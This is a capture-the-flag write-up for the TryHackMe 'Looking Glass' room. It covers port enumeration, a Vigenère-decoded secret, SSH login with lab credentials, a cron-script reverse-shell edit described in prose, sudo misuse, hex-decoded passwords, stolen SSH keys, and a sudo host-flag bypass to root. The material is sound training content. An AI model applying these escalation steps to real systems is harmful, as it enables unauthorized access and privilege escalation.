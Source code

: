 # 48 - Looking Glass (sudoer's file rules for users)

Room Link --> [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.153.216 -sV -p- -T5

# output
from port 22, 9000 - 13783 were open, all SSH services.
```
{% endcode %}

Connecting to any of the ports gives either a lower or higher message output.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# port 13783
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 13783
Higher
Connection to 10.10.201.49 closed.


# port 9000
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 9000 
Warning: Permanently added '[10.10.201.49]:9000' (RSA) to the list of known hosts.
Lower
Connection to 10.10.201.49 closed.
```
{% endcode %}

We need to find the right port. I just kept narrowing it down till i  found the right port. Scripting this could take longer since we'd hae to iterate through all the numbers in an arithmetic progression.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 12091
Warning: Permanently added '[10.10.201.49]:12091' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:	

```
{% endcode %}

Username: `Jabberwocky` .

Trying to decode the cipher text:

Using this [vigenere](https://www.boxentriq.com/code-breaking/vigenere-cipher) decoder site. I tried automatic decode, and found the right key.

<figure><img src=".gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Then i used the generated key: `thealphabetcipher`&#x20;

```
'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.

'Beware the Jabberwock, my son!
The jaws that bite, the claws that catch!
Beware the Jubjub bird, and shun
The frumious Bandersnatch!'

He took his vorpal sword in hand:
Long time the manxome foe he sought--
So rested he by the Tumtum tree,
And stood awhile in thought.

And as in uffish thought he stood,
The Jabberwock, with eyes of flame,
Came whiffling through the tulgey wood,
And burbled as it came!

One, two! One, two! And through and through
The vorpal blade went snicker-snack!
He left it dead, and with its head
He went galumphing back.

'And hast thou slain the Jabberwock?
Come to my arms, my beamish boy!
O frabjous day! Callooh! Callay!'
He chortled in his joy.

'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.
Your secret is bewareTheJabberwock
```

We get the secret: `bewareTheJabberwock`&#x20;

When we input the secret, the connection closed.

<figure><img src=".gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

### Initial Access

But when we tried the credential given via the default ssh port 22, we logged in successfully.

`jabberwock : InstantlyWillingDivideFetch`&#x20;

<figure><img src=".gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledum

There is a `twasBrillig.sh` file in jabberwock home dir, which uses the `bash wall` cmd to send a broadcast message, calling on a `poem.txt` file in the same dir.&#x20;

<figure><img src=".gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

Meaning the `.sh` script is printing the poem as a broadcast message. When i checked cronjob there is a job run by `tweedledum` user at reboot executing that `.sh` file.

<figure><img src=".gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

To exploit this, we just edit the `.sh` file with a reverse shell, then on reboot we get a shell as the `tweedledum` user (setup nc listener to catch the shell).

And we got a shell as `tweedledum` user.

<figure><img src=".gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledee

`sudo -l` . we can execute bash as tweedledee

<figure><img src=".gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

`sudo -u tweedledee /bin/bash` - and we are Tweedledee.

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to HumptyDumpty

There is a `humptydumpty.txt` file in Tweedledee home dir.

```
tweedledee@looking-glass:/home/tweedledee$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

I just paste them into cyberchef and convert from Hex.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

`humptydumpty : zyxwvutsrqponmlk` .

`su humptydumpty` - and we are humptydumpty.

### Priv Esc to Alice

Although we don't have access to list anything in alice home dir, but we can see that Alice's `.ssh` folder is available, and we can also access the Private keys.

<figure><img src=".gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

Use the priv key to gain login ssh acct for Alice.

<figure><img src=".gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tryhackme

Running LinPEAS.sh we found an interesting sudoers file rule for alice.

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

The following is the syntax used by the Sudoers files, which means alice can run /bin/bash as root, but only on the “ssalg-gnikool” host.

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/07/image-365.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

The -h flag can be used to specify the host when executing commands with Sudo:

`sudo -h ssalg-gnikool -u root /bin/bash` - and we are root.

```bash
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool -u root /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# cd /root/
root@looking-glass:/root# ls 
passwords  passwords.sh  root.txt  the_end.txt
```

Done!

